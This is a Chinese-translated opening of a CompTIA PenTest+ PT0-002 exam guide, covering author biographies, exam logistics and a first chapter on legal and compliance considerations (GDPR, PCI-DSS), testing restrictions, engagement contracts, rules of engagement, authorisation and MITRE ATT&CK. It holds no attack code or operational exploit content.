# CompTIA PenTest+ 认证全能考试指南（第 2 版，考试代码 PT0-002）


# 关于作者

**Heather Linn** 是一名红队成员、渗透测试员、威胁猎手和网络安全策略师，在安全行业拥有 20 多年的经验。在她的职业生涯中，她曾担任渗透测试顾问和数字取证调查员，也曾在财富 50 强企业环境中担任高级红队工程师。除了是一位成就卓著的技术编辑（包括 *Gray Hat Hacking*（McGraw Hill, 2018）），Heather 还为多个安全会议和组织编写并提供过培训，包括 Black Hat USA 和 Girls Who Code。Heather 为渗透测试和威胁狩猎的开源框架做出过贡献。她持有或曾持有多项认证，包括 OSCP、CISSP、GREM、GCFA、GNFA 和 PenTest+。

**Ray Nutting** 是一位拥有 20 多年信息安全领域经验的安全从业者。他是 nDepth Security 的联合所有者兼创始人，该公司是一家专注于渗透测试的托管安全服务提供商。他以优异成绩毕业，获得计算机信息系统学位，专攻信息系统安全。他持有多项业界公认的认证，包括 ISC2 CISSP 和 ISSEP、EC-Council C|EH v5 以及 CompTIA PenTest+，并在职业生涯中在各种会议和活动中发表过演讲。

## 关于技术编辑

**Ryan Linn** 在安全行业拥有 20 多年的经验，职务涵盖系统程序员、企业安全到领导全球网络安全咨询公司。Ryan 为多个开源项目做出过贡献，包括 Metasploit 和浏览器利用框架。Ryan 在 Twitter 上以 @sussurro 的身份活跃，并在包括 Black Hat 和 DEF CON 在内的众多安全会议上展示过他的研究成果，还在全球范围内提供过攻击技术和取证方面的培训。

本书献给我的母亲。感谢您培养我的创造力，给予我耐心，并教会我适时且真正愚蠢的笑话那被低估的价值。

—*Heather Linn*

### 致谢

我要感谢所有以某种方式、形式为改进和标准化“信息安全”实践的更大利益做出贡献的开源安全从业者。要一一列举所有贡献者需要一本书的篇幅，但我要特别感谢 OWASP 提供了关于 Web 和移动应用程序安全测试技艺的基础学习材料。感谢所有为开源安全测试方法论手册 (OSSTMM)、信息系统安全评估框架 (ISSAF)、渗透测试执行标准 (PTES) 以及 MITRE 提供的 CVE、CWE、CAPEC 和 ATT&CK 框架做出贡献的人员。感谢 PentesterLab 和其他默默奉献的贡献者，他们分享了关于特定主题的知识和专长，帮助激发了本书中某些练习的开发。我要向 McGraw Hill 表示感谢并致以衷心的谢意，特别是我的采购编辑 Lisa McClain；我的协调员 Emily Walters 和 Caitlin Cromley-Linn；以及责任编辑 Lisa McCoy。这需要一个团队的共同努力。感谢你们让我保持正轨，并确保我看起来尽可能聪明。感谢我的技术编辑 Ryan Linn 对我的代码进行事实核查和校对。还要感谢一路帮助我的所有朋友。你们知道你们是谁！

### 导言

为什么选择 CompTIA PenTest+？CompTIA PenTest+ 考试在五个特定领域评估应试者：规划与范围界定、信息收集与漏洞扫描、攻击与漏洞利用、报告与沟通，以及工具与代码分析。成功的应试者应确保他们至少具备中级技能和在职知识，了解如何在所有五个领域进行和执行渗透测试活动，包括规划和界定渗透测试范围；理解法律和合规要求；使用适当的工具和技术执行漏洞扫描和渗透测试，并分析结果；以及撰写包含建议修复技术的书面报告，有效地向管理团队传达结果，并提供切实可行的建议。多少年经验相当于“中级技能和知识”？这个答案因您的工作和教育背景而异。CompTIA 建议具备 Network+、Security+ 或同等背景，并拥有至少三到四年执行渗透测试、漏洞评估和代码分析的实践经验。

我遇到过许多该领域的成功专业人士，他们要么没有大学学位，要么拥有完全无关领域的学位。我也遇到过聪明的学生，他们的计算理论学术掌握在现实世界的挑战面前彻底瓦解。计算机相关领域的四年制学位不能保证为您提供成为一名成功渗透测试员所需的所有知识或技能。虽然一个能建立扎实沟通和写作技能、并赋予学生编程和系统管理概念功能性理解的学位课程可能有助于打好基础，但通往成功的唯一真正途径是对您的专业领域充满热情，这种热情驱使您在课余和工作之外努力钻研，学习那些往往晦涩难懂的计算系统概念。

拥有系统管理员或开发人员背景的人，通常拥有经验和技能，这使他们在渗透测试领域比没有此类背景的人更具优势。了解系统、软件和网络是如何设计和配置的，有助于做出明智的判断，从而识别实现或配置中的弱点。即使只是了解何时使用默认密码，或人们如何思考选择密码，也能将一名有抱负的渗透测试员培养成一名相当不错的渗透测试员。在我看来，在尝试成为渗透测试员之前，在企业环境中积累开发人员或工程师的工作经验是一个很好的职业选择，因为这些经验在渗透测试期间可能很有价值。

CompTIA 于 2020 年修订了 PenTest+ 认证，版本为 PT0-002。您可以通过 CompTIA 在 `https://store.comptia.org` 购买 PenTest+ 考试代金券。请务必使用随书附赠的 10% 折扣优惠码！考试代金券自购买之日起 12 个月后过期。然后，当您准备好参加考试时，可以在附近的 Pearson VUE 考试中心 (`www.pearsonvue.com/comptia`) 预约日期和时间。考试包含 85 道基于性能和多项选择题。您将有 165 分钟完成考试，及格分数为 750 分（满分 100 到 900 分）。CompTIA PenTest+ 认证考试目标按领域细分了考试百分比。




参加考试时，你应该能够通过排除法找出最佳答案。本测试基于渗透测试的实操知识。你需要理解编程逻辑、网络服务、渗透测试工具（例如 `Nmap` 和 `Netcat`）以及操作系统。参加考试时，请坐下来，放松心情，不要过度思考问题，依靠你正常的思维过程来帮助你通过考试。

#### 如何使用本书

本书并非旨在教你如何成为一名渗透测试人员。该职业所需的许多技能和概念无法容纳在单本书的范围内。相反，本书将涵盖你通过 CompTIA PenTest+ PT0-002 考试所需了解的一切。五个 PenTest+ 领域被分解为 12 个章节，从头到尾涵盖了如何准备渗透测试、如何执行渗透测试、如何撰写渗透测试报告，以及你可以使用哪些策略来帮助有效地与客户沟通。为了帮助你完成书中的练习，我建议下载最新版本的 Kali Linux。你可以从 [`www.kali.org/downloads/`](https://www.kali.org/downloads/) 下载适合你特定架构的最新版本。要检查安装的 Kali 版本，可以读取 `/etc/os-release` 文件的内容。

每章都有几个组成部分，旨在有效传达你备考所需的信息：

*   每章开头都提供了要点和章节介绍摘要，帮助你为将在本章学到的信息做准备。
*   全书使用**技巧**为读者提供使用特定工具的最佳实践。
*   **考试提示**将帮助指出你在学习期间应重点关注的具体事项，因为考试可能会涵盖这些内容。
*   **注意**是简短的参考，用于扩展某个主题、提供有关章节中某部分的基本信息，或为可能超出考试范围的领域提供进一步阅读指导。
*   **警告**区域帮助读者理解使用工具、技术等可能很危险，或在使用前需要额外的深思熟虑。渗透测试人员的工作很有趣，但也需要尽职调查。渗透测试人员模拟攻击者的恶意意图，帮助客户发现其网络中的漏洞，但渗透测试人员不会在未经客户知情和同意的情况下故意（或破坏性地）做任何事情。
*   有些章节提供**边栏**，详细阐述章节中某个主题、技术或技术。


**注意** 虽然本书在一定程度上涵盖了所有考试目标，但没有单一的书籍来源能为你提供成为一名成功渗透测试人员所需的一切知识。我们已尽最大努力通过这本考试指南，为你准备考试所需的知识，但渗透测试领域实在太广泛，无法将每一个细节都装进一本书里。在可能的情况下，我们提供了资源以助你进一步阅读。然而，你也应该通过阅读其他渗透测试人员和安全研究人员的书籍和博客文章来进行自己的研究（即使他们未在本书中被提及）。这些可以扩展你对该领域的了解，并可能让你更深入地理解考试涵盖的主题，使你成为一名更好的渗透测试人员。

##### 章末问题

每章末尾都有复习问题，涵盖你在该章学到的材料。这些问题旨在帮助你测试对书中呈现的主题的理解。它们并非旨在评估你对考试的具体准备情况。每个问题都有答案，并解释了为什么它是正确答案。你会发现章末问题的答案比 CompTIA PenTest+ 考试上的答案更明确一些。考试上的一些答案可能两边都通，或者你可能会发现提供的答案都不是该问题的最佳选择。你可以用于 CompTIA PenTest+ 考试（以及提供的练习题）的应试策略是排除法。问题为多项选择题（除非你可能会被要求回答一些基于性能的问题），因此你应该能够缩小选择范围，以最大化答对的可能性。

##### 目标映射

附录 A 中包含的目标映射旨在帮助你将 CompTIA 的官方考试目标与本书中的相关内容进行交叉引用。参考资料完全按照 CompTIA 的呈现方式提供了考试目标，并标明了涵盖每个目标的章节。

##### 在线内容

本书包含在线内容的访问权限，你可以用它来跟随 第 5 章 的练习，使用 TotalTester Online 练习考试软件按章节或考试领域生成完整的模拟考试或自定义测验，以及基于性能的问题。与章末复习问题不同，TotalTester 练习考试题目与你在真实考试中将看到的题目类型非常相似。更多信息请参见 附录 B。


**警告** 请自担风险跟随练习操作。McGraw Hill 不承担任何意外事故的责任。

## **第 1 章**

################ 规划与约定

在本章中，你将了解

*   渗透测试的法规与合规考量
*   包括测试限制、合同和文档在内的法律概念
*   渗透测试类型、范围界定和测试要求
*   渗透测试人员的职业素养、诚信、道德黑客思维，以及风险与责任

作为一名渗透测试人员，最难的事情之一是规划和准备渗透测试约定。每次约定都不同于上一次，也没有两个客户是相同的。在本章中，你将了解可能影响渗透测试范围界定的各种概念、管理进度和满足客户期望的方法，以及保护你自己和客户所需了解的一些概念。

#### 治理、风险与合规

治理、风险与合规（GRC）描述了组织用于应对行业法规合规性、企业风险管理和内部治理的流程、工具和策略。渗透测试常被用于检验风险，并遵守法律和法规对测试的要求。渗透测试实际上是对组织在处理和处置受保护数据方面的安全性进行评估。了解渗透测试如何融入 GRC 非常重要，因为它可能会影响测试工作的各个要素。


**注意** GRC 模型由 OCEG（[`go.oceg.org`](https://go.oceg.org)）定义为一种标准，它统一了治理、风险、审计、合规、道德/文化和 IT 等各个子学科。组织可以将 GRC 调整为自己的框架，使高管管理层、IT 部门和安全部门能够更高效、更有效地沟通，以实现组织的战略目标。ISACA（[`www.isaca.org`](https://www.isaca.org)）、NIST（[`nist.gov`](https://nist.gov)）和国际标准化组织（[`www.iso.org`](https://www.iso.org)）可以提供关于如何正确实施和管理 GRC 的更多信息。

##### 法规与合规考量


###### 影响渗透测试的法律

影响渗透测试的法律因国家、地区和地方（如州甚至城市）而异。法律可能会影响你被允许使用的工具、某些类型的加密技术是否可以出口，甚至渗透测试期间允许进行哪些活动。范围界定应考虑适用于目标的法律，以及影响测试的企业政策。

通常，基于合规性的渗透测试评估对这些政策、法律和法规的遵守情况。此类测试考虑特定定义数据类型的安全性，通常在定义的受保护环境背景下进行。因此，在范围界定期间询问客户的数据分类政策可能会很有用。合规要求可能会影响渗透测试必须如何进行、测试必须多久进行一次，甚至谁被允许进行测试。在本节中，我们将简要讨论这些概念、对测试的具体影响，并给出在测试规划期间可能遇到的两个法规和标准示例。

###### 合规概念

在与客户讨论渗透测试时，你应该对一些常见的 GRC（治理、风险与合规）概念有基本的了解。这些概念可能会在标准、法规或内部政策中被提及，你需要了解它们如何影响你关于渗透测试的决策。

**机密性** 是基于“需知”原则限制数据访问的概念。拥有和处理数据的公司和个人经常因法规和标准而承担防止数据未经授权披露的责任。作为渗透测试人员，你通常也将根据合同承担保护客户机密的责任。稍后在本章中，当我们讨论合同和文档时，我们将更多地谈论这一点。

隐私不等同于机密性。**隐私** 是一项法律概念，涉及个人控制其个人信息如何被使用、收集和披露的权利。标准和法规可以定义这些权利，从而定义公司处理此类数据的规则。

这就引出了数据类型。每个标准或法规都会定义其认为受保护的数据是什么。询问客户他们认为什么数据很重要，但也要询问他们拥有哪些数据被其遵循的法规和行业标准视为受保护数据。然后，确保你在渗透测试期间看到这些数据时能识别出来。在本章中，我们将讨论在基于合规性的渗透测试中可能遇到的三种数据类型。

**个人身份信息 (PII)** 或 **个人信息** 通常是指允许识别特定个体而非其他个体的数据。它通常被视为单条数据（如社会安全号码或其他国家标识符）或数据组合（如姓名和邮政地址）。由于围绕隐私的法律要求，该信息被视为敏感信息。每个标准或法规的具体细则将定义什么被视为个人数据。

**受保护健康信息 (PHI)** 与 PII 类似，但适用于在医疗保健背景下创建或使用的数据。这可能适用于医疗诊断、就诊详情或定义个人健康或医疗保健的其他属性。与 PII 一样，个别法规将定义什么构成 PHI。例如，美国《健康保险流通与责任法案》定义了 18 项具体信息归类为 PHI，包括电子邮件地址、银行账号、姓氏加名字首字母、生物特征标识符和治疗日期等。

**持卡人数据 (CHD)** 通常特指支付卡行业数据安全标准 (PCI-DSS)。这是一种专门与持卡人相关的 PII 类型。受保护数据可能包括账号、使用支付卡进行金融交易的认证数据，以及单独或组合的其他客户数据。在渗透测试期间识别存储或传输中的此类数据，可能是基于合规性的渗透测试工作的核心要求。

###### 对测试和报告的影响

你需要识别何时基于合规性的测试要求更改你的测试方法，相应地规划渗透测试，并将基于合规性的关注点纳入与客户的讨论中。你的测试可能需要对访问向量和环境边界的测试给予特殊考虑，允许或禁止特定类型的测试，或设定与其他类型渗透测试不同的数据访问规则。

与数据类型类似，标准和法规可能定义受保护环境的概念。这可能定义客户可以在何处存储、收集或处理受保护数据，并设定与其他网络隔离的要求。作为渗透测试人员，你需要识别这些边界，并协商测试参数，以适当评估跨越这些边界的安全性。这可能控制测试设备的部署，要求从受保护环境内部和外部进行测试。你可能需要确保受保护数据仅驻留在这些边界内。基于合规性的测试可能要求特定测试来评估数据的安全传输，例如检查加密套件强度或执行第 2 层网络攻击。这些测试可能不适用于其他渗透测试。你甚至可能被禁止在测试期间直接访问某些类型的受保护数据。相反，应构建你的发现以证明访问是可能的。

对于基于合规性的测试，客户可能会对报告提出特殊要求。除了从证据中编辑受保护数据或在不直接访问受保护数据的情况下提供证据外，你可能还会被要求将发现关联到标准或法规的特定部分。发现的主观严重性甚至可能根据合规要求而变化。例如，如果传输的数据受保护，关于不安全数据传输的发现可能具有更高的风险。

鉴于这种测试所需的专业知识，一些管理机构要求测试人员在渗透测试被接受用于合规目的之前必须具备资质。例如，英国政府实体要求通过其 CHECK 计划获得国家网络安全中心 (NCSC) 的认证（[`www.ncsc.gov.uk/articles/using-check-provider`](https://www.ncsc.gov.uk/articles/using-check-provider)）。在其他情况下，行业认证（如 CREST）^(1) 可用于证明测试人员的经验。然而，值得注意的是，通常不是你的责任判断被测试客户是否符合行业标准或法规——而只是识别与这些合规要求相关的安全问题。

让我们重新审视不安全数据传输的例子。假设一项法规要求受保护数据的安全传输。在测试期间，你发现一台 FTP 服务器以明文传输受保护数据。你的发现指出受保护数据正通过 FTP 服务器不安全地传输，并引用了描述受保护数据传输规则的法规条款。该发现无需判定为不合规。通常，独立评估师将确定其导致不合规。


**考试提示** 渗透测试规划和范围界定可能需要就哪些标准和法规适用于客户、哪些数据类型受保护、数据流图以及测试所需目标提出额外问题。这些问题的答案会影响测试方法、测试工具和报告。

###### GDPR


《通用数据保护条例》（General Data Protection Regulation，GDPR）2016/679 是欧盟（EU）通过的一项法律，它对以欧盟人员为目标或收集与欧盟人员相关数据的组织施加了数据隐私和安全义务。^(2) 重要的是要注意，这适用于任何人，即使他们身处欧盟之外，只要他们处理欧盟人员的个人数据或向欧盟人员提供商品和服务即可。截至撰写本文时，该法律在英国脱欧后得以保留。

GDPR 将个人数据定义为可用于直接或借助额外信息将某个自然人与其他自然人区分开来的数据。^(3) GDPR 提供了一个非详尽的标识符列表，这些标识符可单独或组合使用来描述个人数据。当此类信息被采集在测试工件中时，为了满足法律条款，可能需要在存储或用于报告时对其进行匿名化处理或移除。但是，GDPR 并未规定测试必须采取何种形式，也未规定测试必须以何种频率进行。


**注意**   为受 GDPR 约束的组织执行工作，可能还需要与您的法律顾问进行讨论，以确认在测试规划期间是否需要额外的合同条款。渗透测试人员还应讨论在测试过程中访问、存储或传输受保护信息时，是否需要遵守任何特殊程序。

为 GDPR 目的而进行的渗透测试通常会评估数据传输和数据存储的安全性，以及执行受保护数据传输、处理和存储的系统的安全性。测试可能要求测试人员专注于识别收集了哪些受保护数据、数据存储和传输的位置及方式，以及保护该数据的访问向量或控制措施，以帮助承担 GDPR 义务的实体根据法律条款评估其合规性。^(4)


**考试提示**   作为复习以识别 GDPR 相关问题，受保护的数据类型是欧盟人员的个人数据。测试目标包括数据处理者对个人数据的存储、传输和销毁的安全性。执法由政府处理。

###### PCI-DSS

为打击金融犯罪，主要支付卡品牌（Visa、MasterCard、American Express、Discover 和 JCB）成立了支付卡行业安全标准委员会（Payment Card Industry Security Standards Council，PCI-SSC）^(5)，以制定一系列规则，使用支付卡处理付款的企业应遵循这些规则，以更好地保护卡数据和交易安全。由此产生的标准称为 PCI-DSS。


**注意**   本章中的信息适用于 PCI-DSS 3.2.1 版本。如需了解该标准的最新版本，您应直接参考 PCI-SSC 文档库中的标准：[`www.pcisecuritystandards.org/document_library`](https://www.pcisecuritystandards.org/document_library)

根据该标准，“PCI-DSS 适用于所有参与支付卡处理的实体——包括商户、处理商、收单行、发卡行和服务提供商。PCI-DSS 还适用于所有其他存储、处理或传输持卡人数据和/或敏感认证数据的实体。”^(6) 然而，PCI-DSS 是一项标准，而非法律。不合规的处罚不由政府强制执行。相反，不合规的商户可能会面临罚款，甚至根据商户的服务提供商或收单行的决定，失去接受上述品牌支付卡付款的能力。PCI-DSS 为保护持卡人数据和保护持卡人数据环境（CDE）定义了尽职调查实践，并在文件“信息补充：渗透测试指南”中为渗透测试和需要渗透测试的组织提供了指导。^(7) 该指南解释了作为标准合规性测试一部分所期望的一些 PCI 特定测试方法和测试。


**考试提示**   作为复习以识别 PCI-DSS 相关问题，受保护的数据类型是持卡人数据。可能会涉及对持卡人数据环境的引用。测试目标包括数据处理者对 CHD 数据的存储、传输和保留的安全性。执法在行业内部处理。

PCI-DSS 定义了如表 1-1 所示的持卡人数据和敏感认证数据的保护措施。这些要素可以被存储（例如 PAN、持卡人姓名），但存储时可能需要被渲染为不可读（例如服务代码、有效期）。其他类型的数据不允许被存储，并可能导致渗透测试发现（例如完整磁道数据或 CVV2）。测试人员不仅应知道如何在测试期间识别这些数据及其存储的合规要求，还应了解在存储证据和编写报告发现时，对这些记录进行编辑的数据处理要求。



**表 1-1**  PCI-DSS 账户数据^(8)

在确定此类评估的范围时，应仔细考虑以确保组织的网络入口点得到全面覆盖和记录。例如，PCI-DSS 评估要求从受监管环境的内部和外部进行测试。这提供了不同的视角，并有助于确保数据在组织内外受到的保护保持一致。对组织网络和存储系统的有限访问可能仅提供成功完成完整审计所需信息的一个子集。这可能导致结果不一致并危及审计的完整性。旨在测试受监管环境的基于合规性的评估，根据数据类型和数据处理方式有不同的测试要求，这不同于传统的以通过公开手段访问或渗出数据为目标导向的测试。然而，两者都是时间点评估。每一种都捕捉测试时环境的状态，即使每种测试类型的执行方式不同。


**注意**   渗透测试人员负责了解 PCI-DSS 测试要求，并在范围界定期间将其传达给客户。对测试或环境施加的任何限制都需要记录在案。PCI 评估员负责确定定义的参数是否符合合规性要求。

############### 测试限制

在确定渗透测试范围时，可能还适用其他限制，例如测试窗口和时间框架、允许使用的工具、不允许测试的资产以及测试期间允许使用的方法。其中一些限制由城市、州或国家法律施加。其他限制可能由被测组织施加。作为渗透测试人员，您应在范围界定过程中询问适用的限制。这可能意味着在陌生地域开展业务时咨询法律顾问，或与利益相关者讨论此类限制对测试产生的影响。由于这些限制会影响您能测试的内容，它们可能会影响测试结果，因此您需要在报告和合同中记录这些影响。让我们看三个例子。

############### 基于时间的限制


假设您的客户希望将测试时间限制在晚上 8 点到早上 6 点之间，此时没有用户处于活动状态。他们的目标是让您探索其网络内一台受损计算机的影响。由于没有用户登录，您不太可能通过模拟商务电子邮件泄露或依赖用户交互的攻击等社会工程学手段取得成功。由于您的测试无法检查此类攻击的影响，报告结果必须反映这一点。如果此时没有发生业务交易怎么办？您也无法在此限制下准确评估这些交易的安全性。

客户要求测试限制通常有充分的理由。在某些情况下，测试可能被限制在工作时间内。安全人员可能会根据“追随太阳”轮班制进行轮换，客户可能希望测试特定员工的响应情况。客户可能人手有限，希望仅在工作时间进行已知行为测试，以避免支付加班费。销售高峰期可能与渗透测试合同的签署时间重合，渗透测试的日期或时间可能需要调整以避免干扰关键业务事件。不要立即拒绝基于时间的限制。相反，应与客户讨论这些限制，以便双方共同理解限制测试的决定所带来的影响。

让我们转换一下思路，考虑其他基于时间的限制。如果您的客户希望您对 6,000 个面向互联网的 Web 应用程序执行远程渗透测试，但预算仅支持一名测试人员进行三天的渗透测试工作呢？他们的目标是评估基于互联网的攻击者通过其 Web 应用程序访问其网络的风险。这种时间限制可能会影响您测试的彻底程度，并影响您能够识别的发现数量或类型。这足以识别可能导致访问权限泄露的软件依赖关系吗（前提是第三方软件遭到破坏）？这甚至足以清点站点并识别基本 Web 应用程序测试的可能注入点吗？在范围界定期间，您可能需要限制执行的测试内容、重新协商目标范围，或请求更多系统访问权限以更接近客户的目标。


**NOTE** 值得注意的是，测试的彻底性（深度和广度）直接受渗透测试人员的技能、客户提供给渗透测试人员的目标信息量以及授予测试的时间量的影响。这些概念在范围界定、预算编制和客户预期设定期间需要特别考虑。

###### 资产范围限制

有时，某些系统必须移出范围。这些可能是与客户渗透测试目标无关的系统。这些可能是脆弱或特殊的系统，会对正常的渗透测试活动做出不可预测的响应。它们甚至可能是任务关键型系统，其中断或故障可能导致重大收入损失、自然灾害或人员伤亡。作为渗透测试人员，您的工作是审查这些将资产排除在范围之外的要求，记录它们及其对测试的影响，并向客户解释其排除可能如何影响测试结果。

############### 工具限制

在渗透测试期间，您可能被要求使用有限的工具集。在某些情况下，当地法律将禁止使用某些类型的工具或测试。在其他情况下，客户可能要求测试人员使用经批准的客户工具列表。有时，出于对正在购买的工作的时间或预算考虑，渗透测试人员可能会选择限制使用的工具。每一种情况都需要在范围界定期间进行讨论，以审查对测试、测试结果、测试成本和资源规划的影响。

考虑这样一种情况：您被要求执行一项涉及进入门禁设施的物理渗透测试，该设施位于您不居住或不常工作的州。客户的目标是验证他们为保护数据中心而选择的锁、门、窗和安全摄像头的安全性。经过一些研究，您发现这些锁用一套开锁工具即可轻松撬开，而“Slim Jim”工具很可能通过一个或多个滑动窗口获得访问权限。然而，您不是该地区的持证锁匠，无证持有这些工具是违法的。在这种情况下，除非您能与该地区的持证锁匠合作，否则您可能无法合法地通过执行攻击来实际证明这些弱点，只能在报告中陈述您的研究结果。

这是另一个场景。假设客户不是高安全性企业，但他们想知道自己在顶级攻击者面前的表现如何。他们希望您施展浑身解数，但他们的预算有限。开发自定义漏洞利用当然是可能的，但这将耗时且需要您最优秀的渗透测试人员投入精力。为了让客户满意并控制在预算内，渗透测试人员可能会选择将攻击限制在不包含专有漏洞利用的范围内，但主动提出使用其他技术来模拟高级攻击。

################ 允许和禁止的测试

大多数渗透测试人员会自动将破坏性活动排除在范围之外。很少有公司签订渗透测试合同是为了让其资产被破坏或业务中断。但即使是这条规则也有例外。一些组织可能会专门要求对其资产进行压力测试，或在受控环境中测试是否可能影响交易的完整性。托管和云服务提供商（他们也需要授权测试）可能不允许第二层攻击，因为这会给共享同一网络基础设施的同址客户带来安全风险。禁止某些类型的测试有各种充分的理由。作为范围界定讨论的一部分，您应该与客户讨论您计划执行的测试类型以实现测试目标。

#### 合同和文档

合同是具有法律约束力的相互协议，需要双方的授权代表（即合同签署权限人）签署。许多此类文件需由相关企业的法律顾问审核。这些协议使两方或多方对特定义务承担法律责任，规定了必须或不得执行的行为。它们可能会考虑环境差异并施加特定条款和条件，例如当地和国家政府的限制以及企业（组织）政策。出口限制禁止向其他国家出口某些商品和服务，例如美国出口法禁止出口某些加密技术。组织政策可能要求环境的用户和服务供应商接受背景调查。这些环境差异通常是为了组织的最佳利益而构建的。就渗透测试而言，CompTIA 确定了五份关键合同和文档。


**EXAM TIP** 考试可能会包含这样一些问题：给定特定场景，询问应引用或使用哪份文档或合同。请务必了解各类型之间的区别。

##### 主服务协议

主服务协议（`MSA`）是两方或多方之间达成的一种总括性合同，各方同意将管辖所有其他未来交易和协议的大多数条款。该协议将涵盖以下条件：

*   **付款条款** 协商的付款时间表
*   **产品保修** 产品满足特定条件的保证


##### 知识产权所有权
版权、专利和商标

##### 争议解决
定义解决分歧的流程

##### 风险分担
定义各方责任程度的条款

##### 赔偿
双方同意在特定情况下承担财务责任

此类服务协议还可能涵盖其他项目，例如企业社会责任、商业道德、网络和设施访问，或对所有未来协议至关重要的任何其他条款。通常，`MSA` 用于那些倾向于开放式且支持组织职能领域的行业，如制造、销售、会计和财务等。

###### 保密协议

保密协议（`NDA`）是一份保密协议，通过保护企业的专有信息和知识产权来维护其竞争优势。在渗透测试期间签署 `NDA` 符合公司的最佳利益，尤其是在将工作外包给外部服务供应商时。如果组织遭到攻破，供应商有义务对其在渗透测试期间可能获得的特权信息保密。

###### 工作说明书

工作说明书（`SOW`）是一份正式文件，常用于项目管理领域，概述了服务供应商为组织执行的特定项目工作。`SOW` 也可以是 `MSA` 中的一项条款。它解释了要解决的问题、工作活动、项目交付成果以及完成工作的时间表。工作说明书通常涵盖以下主题：

####### 目的
项目的理由

####### 工作范围
描述要完成的工作活动

####### 工作地点
工作将在何处执行

####### 履行期限
项目的时间表

####### 交付进度表
定义项目工件和截止日期

####### 适用的行业标准
必须遵循的相关标准

####### 验收标准
必须满足的条件

####### 特殊要求
差旅、人员要求（认证、教育背景）

####### 付款计划
协商的付款时间表（可能源自 `MSA`）

###### 交战规则

交战规则（`RoE`）文件以书面形式记录了关于渗透测试执行的指南和约束——最重要的是，什么被授权测试，什么不被授权测试；例如，暴力破解是否为允许的战术，暴力破解尝试次数是否受密码锁定策略限制，自动化模糊测试与手动利用等。`RoE` 可以是 `SOW` 的一部分，也可以作为单独的交付成果处理。该文件需要服务供应商和客户的签署，以表明基准期望已设定并达成一致，但它并不总是像 `MSA` 或 `SOW` 那样接受同等程度的法律审查。如果适用，云服务提供商的批准也可能需要作为附录添加到 `RoE` 中。

该文件详细阐述了 `SOW` 中定义的某些主题，如范围、地点、适用的行业标准和时间表。沟通和升级路径也已定义，以便渗透测试团队在出现问题时知道联系谁以及如何联系。这可能也包括对客户的期望。`RoE` 在开始渗透测试前建立。`RoE` 的示例可在托管于 [`www.nist.gov`](https://www.nist.gov) 的 NIST 特别出版物 800-115 文档的附录 B 中找到，以及托管于 [`www.isecom.org/OSSTMM.3.pdf`](https://www.isecom.org/OSSTMM.3.pdf) 的 OSSTMM 第 2.4 节中。

################ 测试授权

授予测试权限的文件必须由对被测资产拥有权威的人签署。该权威必须依法能够代表资产所有者在所有合同和文件中批准测试条款。这些文件应授予测试活动的权限，并设定明确的期望：渗透测试人员不对系统不稳定或崩溃承担责任，且测试人员将尽职尽责，避免在测试过程中损坏系统。渗透测试人员必须自行尽职调查，核实请求测试的人是否对被测资产拥有批准测试的权限，或是否已获得额外授权。

############### 范围与需求

渗透测试项目的范围将概述评估的目标和需求。最重要的是，一旦范围确立并签署，它就定义了你被允许测试的边界。在此阶段，你试图解决测试的几个组成部分，如测试需求、目标选择、时间线和计划，以及测试策略。

你应该在范围界定过程中收集客户需求。这些将包括合规性要求和测试目标，并将建议项目期间需要执行的测试类型（网络、Web、移动、无线、社会工程学和物理）。为组织捕获此类信息的有效方法是使用范围界定文档或项目前调查，这是一份非正式文件，询问关于被测组织的一般问题，如位置、软件、硬件、架构、IP 地址范围等。它还考虑了某些测试因素，如将向渗透测试人员披露的数据量和类型。这类问题的示例可在 [www.pentest-standard.org/index.php](http://www.pentest-standard.org/index.php) 的项目前交互部分中的“一般问题”标题下找到。

################ 标准

用于渗透测试的策略或方法论将取决于组织进行评估的基本原理，这可能由组织威胁模型驱动。简单来说，这就是你计划如何着手测试客户安全目标的任务。这涵盖了诸如测试前你获得多少目标环境信息、你的攻击向量、你将针对的系统类型，以及你将在测试限制内采用何种攻击方法等细节。有几个行业公认的标准提供了可作为有效测试策略一部分的测试方法论。让我们谈谈其中几个。

########## MITRE ATT&CK

`MITRE ATT&CK` 不是一个整体的渗透测试方法论，而是一个基于公开报告的攻击者活动调查创建的攻击者行为知识库。其目标是使用标准化的参考标准（战术、技术和子技术）来编目这些行为，以便不同群体能够使用相同的术语进行讨论和记录。渗透测试人员可以使用 `ATT&CK` 制定威胁行为者模拟计划^(9)，并可能被要求提供带有 `ATT&CK` 标签的攻击树或报告中的标签。

`ATT&CK` 被组织为攻击组件矩阵。每个矩阵旨在解决不同操作平台上的攻击者活动。企业矩阵针对 Windows、Linux、macOS、网络特定攻击，以及云和容器技术的攻击。还有针对移动和工业控制系统（`ICS`）平台的矩阵。


在每个矩阵中，攻击按战术分类。战术旨在描述攻击者使用该攻击方法的高层目标。这些最初是按照洛克希德·马丁公司的“网络杀伤链”所描述的攻击阶段设计的，后者是一种在高层描述攻击的方法。要了解其工作原理，请参考 ATT&CK 企业矩阵中的 `Initial Access`（初始访问）战术。该战术描述了攻击者可能用来在系统上立足的攻击。另一个战术 `Credential Access`（凭证访问）描述了攻击者可能为收集用户名或密码而执行的活动。


**考试提示** ATT&CK 常通过矩阵——战术、技术和子技术——以及攻击者仿真计划来引用。其价值在于对攻击方法进行标记。

攻击行为随后被描述为技术和子技术。这些是对攻击行为的高层描述。例如，发送钓鱼邮件是获取初始访问的一种方式。钓鱼是一种技术。不过，利用邮件的方式有多种。你可能会使用恶意附件或链接。这些是钓鱼技术下的子技术。

